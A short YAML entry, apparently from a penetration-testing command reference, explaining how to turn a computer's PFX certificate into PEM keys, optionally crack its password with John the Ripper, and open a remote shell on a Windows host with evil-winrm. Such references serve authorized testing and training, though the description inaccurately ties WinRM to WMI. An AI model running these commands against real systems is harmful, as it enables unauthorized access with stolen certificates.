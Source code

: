 ```yaml
---
description: |
  Evil-WinRM uses the Windows Management Instrumentation (WMI) to give you an interactive shell on the Windows host. Winrm Supports PKINIT, meaning if you have a computers PFX file, you can authenticate and get a shell.

  Command Reference:

  	Target IP: 10.10.10.1

    PFX File: cert.pfx

    Domain: EVILCORP

command: |
  First Convert PFX to pem format
  openssl pkcs12 -in cert.pfx -out cert.pem
  Password protected pfx files can be cracked with JohnTheRipper
  Then extract private and public keys from the cert.pem file to two separate files (priv.pem and pub.pem)
  Authenticate to winrm
  evil-winrm -i 10.10.10.1 -c pub.pem -k priv.pem -S -r EVILCORP
items:
  - PFX
services:
  - WMI
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/Hackplayers/evil-winrm
  - https://book.hacktricks.xyz/cryptography/certificates
---
```

